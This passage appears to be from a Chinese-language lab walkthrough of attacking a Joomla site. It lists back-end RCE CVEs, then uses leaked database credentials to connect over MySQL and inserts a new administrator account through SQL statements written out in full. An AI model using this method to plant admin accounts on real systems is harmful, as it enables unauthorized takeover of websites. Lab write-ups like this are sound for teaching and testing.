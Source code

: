 ![image-20221011150338996](images/11.png)

​    没有前台的RCE，这里拿到数据库密码，又开启了3306端口，有MySQL服务，尝试去登陆后台，在网上搜到了很多后台的RCE

CVE-2020-11890<3.9.17远程命令执行漏洞

CVE-2020-10238 <= 3.9.15 远程命令执行漏洞

CVE-2020-10239 	3.7.0to3.9.15 	远程命令执行漏洞

CVE-2021-23132 3.0.0 <= Joomla! <= 3.9.24

https://github.com/HoangKien1020/CVE-2021-23132

至于去连接数据库，用Navicat去连接

安装教程https://www.jianshu.com/p/9c4c499429da

## 后台登陆

连接成功

![image-20221011152416560](images/12.png)

在user表中找到了admin

![image-20221011152608161](images/13.png)

不过密码是加密的，不能直接登陆，所以我们考虑插入一个新的admin用户

在https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn给到了插入一个admin2/secret管理员用户的SQL代码

![image-20221011153026175](images/14.png)

改一下表名

```
INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```

![image-20221011153239164](images/15.png)

插入成功

![image-20221011153303269](images/16.png)

也可以直接用MySQL去连接

```
mysql -h 192.168.1.110 -P 3306 -u testuser -p
```
